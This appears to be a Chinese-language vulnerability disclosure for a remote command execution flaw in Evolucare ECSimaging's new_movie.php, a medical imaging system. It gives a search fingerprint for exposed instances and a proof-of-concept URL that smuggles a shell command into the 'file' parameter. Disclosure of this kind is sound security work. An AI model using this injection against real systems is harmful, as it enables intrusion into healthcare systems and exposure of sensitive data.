 # Evolucare Ecsimaging new_movie.php 远程命令执行漏洞

## 漏洞描述

EVOLUCARE ECSimage是一款国外使用的医疗管理系统，研究发现其new_movie.php接口中存在命令注入漏洞,攻击者可利用该漏洞获取系统敏感信息等.

## 漏洞影响

<a-checkbox checked>EVOLUCARE Evolucare Ecsimaging 版本< 6.21.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="ECSimaging"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645546475187-0a083488-f138-4905-97d4-d59cffe9d11c.png)

验证POC

```javascript
/new_movie.php?studyUID=1&start=2&end=2&file=1;pwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645546842924-a13f0f5d-da65-4933-b804-70f9a8ad1037.png)